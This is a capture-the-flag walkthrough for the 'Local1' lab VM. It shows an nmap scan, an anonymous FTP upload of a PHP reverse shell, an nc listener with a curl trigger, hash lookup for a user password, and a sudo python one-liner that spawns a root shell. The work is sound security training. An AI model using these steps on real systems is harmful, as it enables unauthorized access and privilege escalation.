

# Local

## Setup vm
**Download VirtualBox**[link](https://www.virtualbox.org/wiki/Downloads)

**Target:** [01-Local1.ova](https://assets.01-edu.org/cybersecurity/local/01-Local.ova)

**Tools**[Kali](https://www.kali.org/get-kali/#kali-platforms)

"Install a virtual machine and set up host only adapter for easily finding the target IP."


> Ensure that Local1 and Kali use a host-only adapter and share the same one.

Now run kali and Local1


## Find IP Address

To discover the IP addresses, utilize nmap to scan the virtual machine (VM) host IPs that have been set up within the port range from 1 to 254 with the following command:


```
nmap 192.168.160.1-254
```



In this example, the target IP is **192.168.160.3**.


**Next Step:** Adding a Reverse Shell to the Target Machine


You can obtain a reverse shell from the following GitHub repository: 
[Revshells](https://github.com/pentestmonkey/php-reverse-shell)

**Adding the Shell File to the Target Machine**

Use the command:

```
ftp 192.168.160.3
```
It will prompt for a username. Use "anonymous" as the username and press Enter for the password.
Now, add the shell using the command:
```
put /home/kali/Desktop/dont-worry.php dont-worry.php
```
> In this case, the shell file is located on the Desktop.

To verify whether the shell has been successfully added to the machine, type ls. Then, type exit and press Enter to exit FTP.

**Next Step: Active the Reverse Shell**

Open another command line and execute the command obtained from the reverse shell page:

```
nc -lvnp 9090
```

In another terminal, run the command:

```
curl http://192.168.160.3/files/dont-worry.php
```
to activate the shell.


Now, navigate to the home folder and execute the following command:
```
cat important.txt
```

In the "important.txt" file, the last line will instruct you to run "runme.sh" bash script to view all data. You can locate "runme.sh" in the root directory using the command:
```
ls -a
```


Use the cat command to view the contents of the "runme.sh" file:

```
cat .runme.sh
```


Within the bash script, you will find the hashed password for Shrek. To identify the hash type, you can use tools like "jack the ripper" or free web applications such as [md5decrypt](https://md5decrypt.net/en/)


## Get into root

With the username 'shrek' and the password 'youaresmart', you can access Local1. Once logged in, you'll have permission to read 'user.txt'.


In this scenario, we observe that the user has permission to use Python 3.5. To verify the user's permissions, execute the following command:
```
sudo -l
``` 

To gain root access, we'll utilize Python to instruct the root user to open a root Bash shell:


```
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
```


> root flag will find in /root/root.txt and use cat command for reading file